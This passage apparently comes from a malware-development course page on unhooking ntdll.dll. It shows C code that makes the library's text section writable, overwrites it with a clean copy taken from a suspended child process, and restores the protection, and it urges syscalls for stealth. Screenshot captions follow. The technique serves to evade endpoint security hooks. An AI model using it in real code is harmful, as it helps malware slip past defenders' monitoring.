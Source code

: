 ```c
	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// copying the new text section 
	memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

	// rrestoring the old memory protection
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

### Improving The Implementation

The current implementation unhooks `ntdll.dll` using WinAPIs. For a stealthier implementation, direct or indirect syscalls should be used to perform unhooking. This will be left as an objective for the reader.

### Demo

A suspended child process with PID `6412`.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-suspended-process-318679682-0ba9b734-e1e7-4896-90d6-d05ada1ee9f7.png)

  

The hooked `ntdll.dll` text section to be replaced.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-suspended-process-418679690-a8faac4b-bb48-4d37-939d-70ca1a9711a2.png)

  

The text section base address of the unhooked `ntdll.dll`.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-suspended-process-518679693-f19b0159-5abb-4c98-88c0-091ea2cdfa31.png)

  

Replacing the text section.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-suspended-process-618679699-59d3f22d-e8a0-4d1d-9a61-85a48845db8b.png)